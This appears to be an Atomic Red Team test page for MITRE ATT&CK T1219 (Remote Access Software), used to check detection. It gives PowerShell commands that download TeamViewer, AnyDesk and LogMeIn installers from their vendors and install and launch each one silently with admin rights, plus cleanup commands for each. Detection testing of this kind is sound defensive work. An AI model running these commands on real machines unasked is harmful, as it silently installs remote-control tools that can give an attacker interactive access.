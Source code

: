 # T1219 - Remote Access Software
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1219)
<blockquote>An adversary may use legitimate desktop support and remote access software, such as Team Viewer, Go2Assist, LogMein, AmmyyAdmin, etc, to establish an interactive command and control channel to target systems within networks. These services are commonly used as legitimate technical support software, and may be allowed by application control within a target environment. Remote access tools like VNC, Ammyy, and Teamviewer are used frequently when compared with other legitimate software commonly used by adversaries. (Citation: Symantec Living off the Land)

Remote access tools may be established and used post-compromise as alternate communications channel for redundant access or as a way to establish an interactive remote desktop session with the target system. They may also be used as a component of malware to establish a reverse connection or back-connect to a service or adversary controlled system.

Admin tools such as TeamViewer have been used by several groups targeting institutions in countries of interest to the Russian state and criminal campaigns. (Citation: CrowdStrike 2015 Global Threat Report) (Citation: CrySyS Blog TeamSpy)</blockquote>

## Atomic Tests

- [Atomic Test #1 - TeamViewer Files Detected Test on Windows](#atomic-test-1---teamviewer-files-detected-test-on-windows)

- [Atomic Test #2 - AnyDesk Files Detected Test on Windows](#atomic-test-2---anydesk-files-detected-test-on-windows)

- [Atomic Test #3 - LogMeIn Files Detected Test on Windows](#atomic-test-3---logmein-files-detected-test-on-windows)


<br/>

## Atomic Test #1 - TeamViewer Files Detected Test on Windows
An adversary may attempt to trick the user into downloading teamviewer and using this to maintain access to the machine. Download of TeamViewer installer will be at the destination location when sucessfully executed.

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Invoke-WebRequest -OutFile C:\Users\$env:username\Desktop\TeamViewer_Setup.exe https://download.teamviewer.com/download/TeamViewer_Setup.exe
$file1 = "C:\Users\" + $env:username + "\Desktop\TeamViewer_Setup.exe"
Start-Process $file1 /S;
Start-Sleep 10 
Start-Process 'C:\Program Files (x86)\TeamViewer\TeamViewer.exe'
```

#### Cleanup Commands:
```powershell
$file = 'C:\Program Files (x86)\TeamViewer\uninstall.exe'
if(Test-Path $file){ Start-Process $file "/S" -ErrorAction Ignore | Out-Null }
$file1 = "C:\Users\" + $env:username + "\Desktop\TeamViewer_Setup.exe"
Remove-Item $file1 -ErrorAction Ignore | Out-Null
```





<br/>
<br/>

## Atomic Test #2 - AnyDesk Files Detected Test on Windows
An adversary may attempt to trick the user into downloading AnyDesk and use to establish C2. Download of AnyDesk installer will be at the destination location and ran when sucessfully executed.

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Invoke-WebRequest -OutFile C:\Users\$env:username\Desktop\AnyDesk.exe https://download.anydesk.com/AnyDesk.exe
$file1 = "C:\Users\" + $env:username + "\Desktop\AnyDesk.exe"
Start-Process $file1 /S;
```

#### Cleanup Commands:
```powershell
$file1 = "C:\Users\" + $env:username + "\Desktop\AnyDesk.exe.exe"
Remove-Item $file1 -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #3 - LogMeIn Files Detected Test on Windows
An adversary may attempt to trick the user into downloading LogMeIn and use to establish C2. Download of LogMeIn installer will be at the destination location and ran when sucessfully executed.

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Invoke-WebRequest -OutFile C:\Users\$env:username\Desktop\LogMeInIgnition.msi https://secure.logmein.com/LogMeInIgnition.msi
$file1 = "C:\Users\" + $env:username + "\Desktop\LogMeInIgnition.msi"
Start-Process $file1 /S;
Start-Process 'C:\Program Files (x86)\LogMeInIgnition\LMIIgnition.exe' "/S"
```

#### Cleanup Commands:
```powershell
get-package *'LogMeIn Client'* -ErrorAction Ignore | uninstall-package 
$file1 = "C:\Users\" + $env:username + "\Desktop\LogMeInIgnition.msi"
Remove-Item $file1 -ErrorAction Ignore
```





<br/>

